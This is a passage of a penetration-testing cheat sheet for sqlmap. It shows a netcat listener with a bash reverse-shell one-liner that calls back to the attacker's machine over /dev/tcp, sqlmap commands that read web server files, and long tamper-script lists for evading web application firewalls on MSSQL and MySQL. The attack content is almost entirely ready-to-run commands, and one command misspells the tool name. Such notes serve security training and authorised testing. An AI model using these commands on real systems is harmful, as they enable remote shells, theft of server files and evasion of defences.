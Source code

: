 After activating, you may want to upgrade to the full functional shell.  
You can do that using reverse shell.

In your local machine,

```sh
nc -lvnp 4444
```

Then execute the following command in web shell.

```sh
os-shell> bash -c 'bash -i >& /dev/tcp/<your-local-ip>/4444 0>&1'
```

<br /><br />

## Read Files

```sh
# --batch: never ask for user input, use the default behavior
sqlmap -r request.txt --file-read "/var/www/html/index.php" --time-sec 10 --batch
sqlmap -r request.txt --file-read "/var/www/<subdomain>/index.php" --time-sec 10 --batch

sqlmap -u "http://<target-ip>/?q=test" --file-read "var/www/html/index.php" --time-sec 10 --batch
```

<br /><br />

## Tampering

The sqlmap can be tampered by custom python script e.g. tamper.py or the default library.  
To list all tampers, run the following command.

```bash
sqlmap --list-tampers
```

<br />

### WAF (Web Application Firewall) Bypass

[This post](https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3) explains details for what each module works.

```bash
# General
sqlmap -r request.txt --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,escapequotes,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes

# MSSQL
sqlmap -r request.txt --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes

# MySQL
sqlamp -r request.txt --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```

